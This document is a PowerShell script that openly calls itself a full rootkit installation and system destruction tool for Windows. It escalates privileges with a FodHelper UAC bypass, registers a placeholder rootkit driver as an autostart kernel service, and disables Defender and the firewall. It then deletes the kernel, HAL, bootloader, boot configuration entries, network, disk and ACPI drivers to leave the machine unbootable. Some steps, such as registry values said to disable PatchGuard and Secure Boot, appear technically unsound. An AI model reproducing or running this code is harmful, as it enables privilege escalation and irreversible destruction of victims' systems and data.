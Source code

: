 # Full Rootkit Installation and System Destruction Script with UAC Bypass
# WARNING: This script will render the system unbootable and irrecoverable.
# This script is fully automated, gaining admin rights, installing a rootkit, and destroying the system.

# Ensure script is run as Administrator (UAC bypass method below)
if (!([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator)) {
    # UAC Bypass via FodHelper
    Write-Host "Attempting UAC Bypass via FodHelper..." -ForegroundColor Yellow
    New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\shell\open\command" -Name "(Default)" -Value "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -ExecutionPolicy Bypass -File C:\Path\To\ThisScript.ps1" -Force
    New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\shell\open\command" -Name "DelegateExecute" -Value "" -Force
    Start-Process "C:\Windows\System32\fodhelper.exe"  # UAC Bypass exploit triggers this script with admin rights
    exit
}

Write-Host "UAC Bypass successful. Proceeding with rootkit installation and system destruction..." -ForegroundColor Red

# PART 1: Install Rootkit and Ensure Persistence

Write-Host "Installing rootkit (kernel-mode rootkit driver)..." -ForegroundColor Yellow
# Replace the path below with the actual rootkit driver file location
Copy-Item "C:\Path\To\Rootkit\rootkit.sys" -Destination "C:\Windows\System32\drivers\" -Force

# Create a system service for the rootkit driver
sc create rootkit binPath= "C:\Windows\System32\drivers\rootkit.sys" type= kernel start= auto
sc start rootkit

Write-Host "Setting rootkit for persistence (autostart on boot)..." -ForegroundColor Yellow
# Add rootkit to auto-start registry key for persistence
New-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" -Name "rootkit" -Value "C:\Windows\System32\drivers\rootkit.sys" -Force

# PART 2: Disable Security Measures (Windows Defender, Firewall)

Write-Host "Disabling Windows Defender and security features..." -ForegroundColor Yellow
Set-Service -Name WinDefend -StartupType Disabled  # Disable Windows Defender service
Stop-Service -Name WinDefend -Force  # Stop Windows Defender
New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name "DisableAntiSpyware" -Value 1 -Force
New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name "DisableRealtimeMonitoring" -Value 1 -Force

# Disable Windows Firewall
Set-Service -Name MpsSvc -StartupType Disabled  # Disable Firewall service
Stop-Service -Name MpsSvc -Force  # Stop Firewall service
Remove-Item -Path "C:\Windows\System32\mpssvc.dll" -Force  # Remove Firewall DLL

# PART 3: Disable Kernel Protections and Secure Boot

Write-Host "Disabling kernel protections and Secure Boot..." -ForegroundColor Yellow
New-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager" -Name "DisableKernelPatchProtection" -Value 1 -Force  # Disable PatchGuard
New-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager" -Name "DisableIntegrityChecks" -Value 1 -Force  # Disable kernel integrity checks

# Disable Secure Boot
New-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\SecureBoot\State" -Name "UEFISecureBootEnabled" -Value 0 -Force  # Disable Secure Boot

# PART 4: Destroy Networking Stack and System Files

Write-Host "Disabling networking stack..." -ForegroundColor Red
Remove-Item -Path "C:\Windows\System32\drivers\tcpip.sys" -Force  # Remove TCP/IP stack
Remove-Item -Path "C:\Windows\System32\drivers\ndis.sys" -Force  # Remove network driver interface
Set-Service -Name Dhcp -StartupType Disabled  # Disable DHCP service
Set-Service -Name Dnscache -StartupType Disabled  # Disable DNS Client service
Stop-Service -Name Dhcp, Dnscache -Force  # Stop DHCP and DNS services

# PART 5: Destroy Kernel, Bootloader, and Critical Files

Write-Host "Starting system destruction (kernel, bootloader, etc.)..." -ForegroundColor Red
Remove-Item -Path "C:\Windows\System32\ntoskrnl.exe" -Force  # Remove Windows kernel
Remove-Item -Path "C:\Windows\System32\hal.dll" -Force  # Remove HAL (Hardware Abstraction Layer)
Remove-Item -Path "C:\bootmgr" -Force  # Remove Windows Boot Manager

Write-Host "Destroying Boot Configuration Data (BCD)..." -ForegroundColor Red
bcdedit /delete {default} /f  # Delete the default boot entry
bcdedit /delete {bootmgr} /f  # Remove boot manager from BCD

# PART 6: Disable Disk I/O and Volume Management

Write-Host "Disabling disk I/O drivers and NTFS..." -ForegroundColor Red
Remove-Item -Path "C:\Windows\System32\drivers\disk.sys" -Force  # Remove disk driver
Remove-Item -Path "C:\Windows\System32\drivers\partmgr.sys" -Force  # Remove partition manager
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\Ntfs" -Name "Start" -Value 4 -Force  # Disable NTFS

Write-Host "Disabling Volume Snapshot Service (VSS)..." -ForegroundColor Red
Remove-Item -Path "C:\Windows\System32\drivers\volsnap.sys" -Force  # Remove Volume Shadow Copy driver

# PART 7: Disable Power Management and Hardware Control

Write-Host "Disabling ACPI (power management)..." -ForegroundColor Red
Set-ItemProperty -Path "HKLM\SYSTEM\CurrentControlSet\Services\ACPI" -Name "Start" -Value 4 -Force  # Disable ACPI
Remove-Item -Path "C:\Windows\System32\drivers\acpi.sys" -Force  # Remove ACPI driver

Write-Host "Final destruction complete. The system is now irrecoverable." -ForegroundColor Red
